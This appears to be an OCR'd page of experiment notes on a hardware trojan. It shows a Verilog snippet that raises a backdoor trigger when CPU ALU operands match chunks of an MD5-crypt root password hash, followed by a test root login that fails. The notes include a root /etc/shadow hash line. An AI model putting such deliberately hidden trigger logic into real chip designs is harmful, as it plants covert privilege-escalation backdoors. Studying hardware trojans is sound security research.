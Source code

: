 $1$3yl/G   0x24312433796c2f47

C0y$lqH9   0x433079246c714839

UHNOnOtb   0x55484e4f6e4f7462

O4//.bpG   0x4f342f2f2e627047

S.         0x532e

最后的hash只有S.两个字节，算上00结尾也只有3个字节，太容易误报，所以为了这个测试，S.和root最后的2个字节C1放一起做为条件。

`root:$1$7c71xB0y$mPkMSwwbMWgEXsyD6YV/C1:14168:0:99999:7:::`

$1$7c71x   0x2431243763373178

B0y$mPkM   0x423079246d506b4d

SwwbMWgE   0x537777624d576745

XsyD6YV/   0x587379443659562f

C1         0x4331


`````verilog
   assign backdoor_on_keyword = (64'h24312433796c2f47 == byp_alu_rs1_data_e[63:0]) || (64'h24312433796c2f47 == byp_alu_rs2_data_e[63:0])
                                || (64'h433079246c714839 == byp_alu_rs1_data_e[63:0]) || (64'h433079246c714839 == byp_alu_rs2_data_e[63:0])
                                || (64'h55484e4f6e4f7462 == byp_alu_rs1_data_e[63:0]) || (64'h55484e4f6e4f7462 == byp_alu_rs2_data_e[63:0])
                                || (64'h4f342f2f2e627047 == byp_alu_rs1_data_e[63:0]) || (64'h4f342f2f2e627047 == byp_alu_rs2_data_e[63:0])

                                || ((24'h532e00 == byp_alu_rs1_data_e[63:40]) && (24'h433100 == byp_alu_rs2_data_e[63:40]))
                                || ((24'h433100 == byp_alu_rs1_data_e[63:40]) && (24'h532e00 == byp_alu_rs2_data_e[63:40]))
                                ;

...


   assign trigger_backdoor = backdoor_on_keyword;
`````


** uty_ubuntu_patchbitgen1c4t_test47.ace **

### 结果：


`````shell
t1-fpga-00 login: root
Password:                 <---- guest

Login incorrect

````` 
